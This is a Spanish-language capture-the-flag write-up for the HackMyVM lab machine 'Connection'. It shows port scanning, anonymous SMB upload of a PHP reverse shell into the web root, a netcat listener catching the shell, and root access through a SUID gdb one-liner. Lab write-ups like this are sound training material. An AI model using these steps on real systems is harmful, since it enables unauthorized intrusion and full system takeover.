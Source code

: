 ```yaml
---
title:      "Connection"
excerpt:    "Hoy vamos a realizar otra máquina de HackMyVM sencillita para ir poco a poco a otras más complicadas."
toc:        true
toc_label:  "Tabla de contenidos"
toc_icon:   "key"
header:
  teaser: /assets/images/connection/prev.png
  teaser_home_page: true
  icon: /assets/images/HMV.png
classes:    wide
categories:
  - HackMyVM
tags:  
  - Easy
  - Linux
  - SMB
  - Reverse shell
  - SUID
---
```


![](/assets/images/connection/prev.png){: .align-center}

Hoy vamos a realizar otra máquina de HackMyVM sencillita para ir poco a poco a otras más complicadas.


## Reconocimiento de Puertos

En primer lugar averiguamos la IP de la máquina víctima:

~~~bash
❯ sudo arp-scan -l | grep "PCS"
192.168.0.18  08:00:27:d9:da:c0 PCS Systemtechnik GmbH
~~~

Ahora realizamos el reconocimiento de puertos abiertos:

~~~ruby
❯ nmap -p- --open -T5 -v -n 192.168.0.18

PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
~~~


## Analizando vectores de ataque

Vamos a ver qué muestra el contenido web por el puerto 80:

![](/assets/images/connection/80.png){: .align-center}

Página por defecto de Apache2 de Debian en este caso, y si miramos el código no hay ninguna pista.

Ahora vamos a listar los recursos que nos figuran por SMB sin que pregunte contraseña:

~~~bash
❯ smbclient -N -L 192.168.0.18
Anonymous login successful

  Sharename       Type      Comment
  ---------       ----      -------
  share           Disk      
  print$          Disk      Printer Drivers
  IPC$            IPC       IPC Service (Private Share for uploading files)
~~~

Vamos a ver qué hay en "share", al cual tenemos acceso:

~~~bash
❯ smbclient -N //192.168.0.18/share
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep 23 03:48:39 2020
  ..                                  D        0  Wed Sep 23 03:48:39 2020
  html                                D        0  Thu Nov 24 12:13:41 2022

    7158264 blocks of size 1024. 5341464 blocks available
smb: \> cd html
smb: \html\> ls
  .                                   D        0  Thu Nov 24 12:13:41 2022
  ..                                  D        0  Wed Sep 23 03:48:39 2020
  index.html                          N    10701  Wed Sep 23 03:48:45 2020

    7158264 blocks of size 1024. 5341464 blocks available
~~~

Bien, ahí tenemos el index.html por defecto que vimos por http anteriormente. En este punto, la idea está clara, subir una reverse shell de PHP. Usaremos la de [pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). Le configuramos nuestra IP y puerto deseado, y le damos permisos de ejecución con `chmod +x php-reverse-shell.php`. Ahora solo queda subirla:

~~~bash
smb: \html\> put php-reverse-shell.php
putting file php-reverse-shell.php as \html\php-reverse-shell.php (233,3 kb/s) (average 233,3 kb/s)
~~~

Nos ponemos en escucha con `nc -nlvp 1234` y lanzamos la shell desde el navegador `http://192.168.0.18/php-reverse-shell.php`

Estamos dentro, por lo que lanzamos con Python una terminal interactiva y la tratamos para que nos funcione todo correctamente:

~~~bash
❯ nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.0.24] from (UNKNOWN) [192.168.0.18] 46310
Linux connection 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux
 08:58:00 up  2:17,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@connection:/$ export TERM=xterm
export TERM=xterm
www-data@connection:/$ export SHELL=bash
export SHELL=bash
www-data@connection:/$ 
~~~

Ahora solo nos queda ir a por la flag de user:

~~~bash
www-data@connection:/$ cd /home
cd /home
www-data@connection:/home$ ls
ls
connection
www-data@connection:/home$ cd connection
cd connection
www-data@connection:/home/connection$ ls
ls
local.txt
www-data@connection:/home/connection$ cat local.txt
cat local.txt
~~~


## Escalada de privilegios

En este caso vamos a ver los binarios SUID que tenemos:

~~~bash
$ find / -type f -perm -4000 -ls 2>/dev/null
     3678     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   271481     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   273055    428 -rwsr-xr-x   1 root     root         436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
   265674     44 -rwsr-xr-x   1 root     root          44440 Jul 27  2018 /usr/bin/newgrp
   266157     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 /usr/bin/umount
   265821     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 /usr/bin/su
   262208     64 -rwsr-xr-x   1 root     root          63736 Jul 27  2018 /usr/bin/passwd
   279120   7824 -rwsr-sr-x   1 root     root        8008480 Oct 14  2019 /usr/bin/gdb
   262204     44 -rwsr-xr-x   1 root     root          44528 Jul 27  2018 /usr/bin/chsh
   262203     56 -rwsr-xr-x   1 root     root          54096 Jul 27  2018 /usr/bin/chfn
   266155     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 /usr/bin/mount
   262206     84 -rwsr-xr-x   1 root     root          84016 Jul 27  2018 /usr/bin/gpasswd
~~~   

Podemos observar que tenemos el binario "gdb" del cual nos podemos aprovechar usando la ayuda de <https://gtfobins.github.io/gtfobins/gdb/#suid> para convertirnos en root:

~~~bash
www-data@connection:/$ /usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
proof.txt
# cat proof.txt 
cat proof.txt
~~~

Y con esto, habríamos terminado la máquina. Nos vemos en la siguiente.
